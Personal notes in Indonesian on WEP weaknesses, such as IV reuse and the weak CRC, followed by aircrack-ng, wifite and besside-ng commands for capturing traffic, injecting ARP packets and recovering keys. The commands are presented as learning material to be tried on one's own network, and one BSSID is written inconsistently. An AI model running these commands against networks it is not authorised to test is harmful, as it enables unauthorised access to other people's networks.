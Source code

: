 # WEP Hacking
#wireless #encryption 

Key: 
- Packet injection
- 24 - bit IV

## Karakteristik
WEP menggunakan RC4 stream cipher dengan kunci sebanyak 64-bit atau 128-bit. Jika dikurangi dengan total IV nya, maka sebenarnya kunci yang benar-benar dipakai adalah
- `40 / 64 bit` . Karena menggunakan 40-bit key, kuncinya hanya membutuhkan 5 karakter $5*8=40$ (pada ASCII, tiap karakter = 8 bit atau 1 byte) atau 10 karakter hex.
- `104 / 128 bit` . Passphrase 13 karakter ASCII atau 26 karakter hex.

## Vulnerability
- WEP menggunakan 24-bit IV, yang mana dianggap lemah secara kriptografi. Pada 24-bit IV, ada kemungkinan 50% IV yang sama akan terulang setelah 5.000 paket. Sehingga sangat rentan pada lokasi yang sangat sibuk. Hal ini menyebabkan WEP mudah dijebol. Packet injection untuk mengirimkan bogus packet juga menyebabkan WEP makin cepat dipecahkan. 
- Dari 64-bit kunci, hanya 40-bit yang bersifat rahasia. Begitu pula pada versi 128-bit kunci yang hanya ada 104-bit yang bersifat rahasia.
- Pengiriman IV sendiri adalah dalam plain text, sehingga mempermudah attacker untuk melakukan recovery kunci dari rotasi 24 bit IV.
- 32 bit CRC / ICV (Integrity Check Value) sehingga lemah terhadap tampering dan bit flipping attack.

**Teknik serang:** Attacker bisa memaksa IV yang sama digunakan untuk yang kedua kali dengan melakukan replay network traffic dengan jumlah yang sangat banyak.


## Eksploitasi
Untuk tes eksploitasi, gunakan wifi sendiri dengan setting bit kunci berjumlah kecil `40/64 bit`. Tujuannya untuk mempercepat proses dari WEP hacking itu sendiri. Inisiasi serangannya adalah:
```sh
# (optional) masuk ke monitoring mode
airmon-ng start wlan0

# apabila terdapat kendala proses
airmon-ng check kill
```

Menggunakan **wifite** untuk cracking WEP dan menggunakan random MAC address. Tools ini dapat melakukan otomasi serangan airodump, aireplay, dan aircrack.
```sh
wifite --wep --mac
```

Menggunakan bessid-ng.
```sh
# untuk mendapatkan .pcap
besside-ng -c _ChannelTargetIsOn_ -b _BSSIDofTargetNetwork_ _NameOfInterfaceCard_

besside-ng -b 7C:CA:ED:A4:9B:EE -c 11 wlan0mon

# collect the IVs (Initialization Vectors) from the something.cap file
aircrack-ng ./wep.cap
```


Old but gold technique, untuk memahami proses cracking dari WEP. Serangan dari aireplay-ng akan diulang setiap 5000 IVs sampai berhasil.
```sh
# melihat WEP yang ada di sekitar
sudo airodump-ng wlan0mon --encrypt WEP

# tentukan bssid yang digunakan, channel yang digunakan, masukkan capture ke WEPcrack.pcap file
airodump-ng --bssid 00:09:5B:6F:64:1E -c 11 -w WEPcrack mon0

# apabila tidak ada traffic, kita bisa inject ARP traffic (untuk mempercepat proses mendapatkan reused IV + key) - cafe latte attack
aireplay-ng -3 -b 00::09:58:6F:64:1E -h 44:60:57:c8:58:A0 mon0

# crack
aircrack-ng WEPcrack-01.cap

# kalau belum ter-crack
aircrack-ng WEPcrack-02.cap
```


## Kesimpulan
Kecuali buat nangkap script kiddies sedang melakukan hacking, tidak ada alasan lain untuk menggunakan WEP.


## Sumber
- https://null-byte.wonderhowto.com/how-to/hack-wi-fi-hunting-down-cracking-wep-networks-0183712/
- https://en.wikipedia.org/wiki/Initialization_vector
- https://teckk2.github.io/wifi%20pentesting/2018/07/20/Hacking-WEP.html
- https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy#:~:text=Most%20devices%20also%20allow%20the%20user%20to%20enter%20it%20as,128%20bits%20of%20WEP%20key).
- https://www.youtube.com/watch?v=ab6GYvKxfV0
